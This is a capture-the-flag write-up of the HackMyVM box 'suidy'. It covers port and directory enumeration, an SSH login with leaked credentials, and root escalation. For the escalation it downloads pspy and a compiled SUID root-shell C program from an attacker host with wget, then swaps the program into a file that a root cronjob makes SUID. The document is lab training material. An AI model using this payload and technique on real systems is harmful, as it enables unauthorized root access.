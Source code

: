 ```yaml
---
title: HackMyVM - suidy
description: My writeup on suidy box.
categories:
 - HackMyVM
tags: HackMyVM suid
---
```


![](https://i.imgur.com/vIkqVK9.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

This one was as tricky box, we start by finding a message that provide us access to the box. Privesc to root is tricky we have to detect a cronjob that set SUID to a specific file. We have to recreate our own SUID C shell and replace it. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.5
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:43 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00042s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:3F:4E:95 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.15 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:44 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 8a:cb:7e:8a:72:82:84:9a:11:43:61:15:c1:e6:32:0b (RSA)
|   256 7a:0e:b6:dd:8f:ee:a7:70:d9:b1:b5:6e:44:8f:c0:49 (ECDSA)
|_  256 80:18:e6:c7:01:0e:c6:6d:7d:f4:d2:9f:c9:d0:6f:4c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html 
/index.html (Status: 200)
/robots.txt (Status: 200)
```

`/robots.txt` in the very end has a directory:

```
$ curl http://192.168.1.5/robots.txt
/hi
/....\..\.-\--.\.-\..\-.

..space..

/shehatesme
```

## Shell as theuser

This directory has a message:

```
She hates me because I FOUND THE REAL SECRET! I put in this directory a lot of .txt files. ONE of .txt files contains credentials like "theuser/thepass" to access to her system! All that you need is an small dict from Seclist! 
```

This is the tricky part, we can see the credentials already `theuser/thepass` so we can login in using SSH. :smile:

```
$ ssh theuser@$ip                                        
theuser@192.168.1.5's password: 

theuser@suidy:~$ whoami;id
theuser
uid=1000(theuser) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## Shell as root

Box name is `suidy` so let's search for SUID files:

```
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsrwsr-x 1 root theuser 16704 sep 26 23:46 /home/suidy/suidyyyyy
-rwsr-xr-x 1 root root 63568 ene 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 34888 ene 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 ene 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54096 jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63736 jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 jul 27  2018 /usr/bin/chsh
-rwsr-xr-- 1 root messagebus 51184 jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

`/home/suidy/suidyyyyy` perfect! If we run it we get shell as suidy but after that nothing:

```
theuser@suidy:~$ /home/suidy/suidyyyyy
suidy@suidy:~$ whoami;id
suidy
uid=1001(suidy) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Here i got stuck for a long time & i decided to run `pspy`:

```
suidy@suidy:/tmp$ wget -q 192.168.1.14/pspy64
suidy@suidy:/tmp$ chmod +x pspy64
suidy@suidy:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

..data.. 

2020/10/01 20:56:01 CMD: UID=0    PID=653    | /bin/sh -c sh /root/timer.sh 
2020/10/01 20:56:01 CMD: UID=0    PID=654    | sh /root/timer.sh 
```

There is a cronjob that runs this file as root, after some experiments i found out that this file gives SUID to `/home/suidy/suidyyyyy`. So let's make a SUID C shell, compile it and transfer it on the box to replace `/home/suidy/suidyyyyy`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

```
$ touch suid.c
$ nano suid.c 
$ gcc suid.c -o suid
```

Let's move it on the target system now:

```
theuser@suidy:/home/suidy$ wget -q 192.168.1.14/suid -O suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwxrwxr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwsrwsr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ./suidyyyyy 
root@suidy:/home/suidy# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(theuser)
```

Let's read the flags:

```
root@suidy:/root# cat root.txt | cut -c1-5
HMV00
root@suidy:/root# cat /home/theuser/user.txt | cut -c1-5
HMV23
```

Tricky box! :smile:
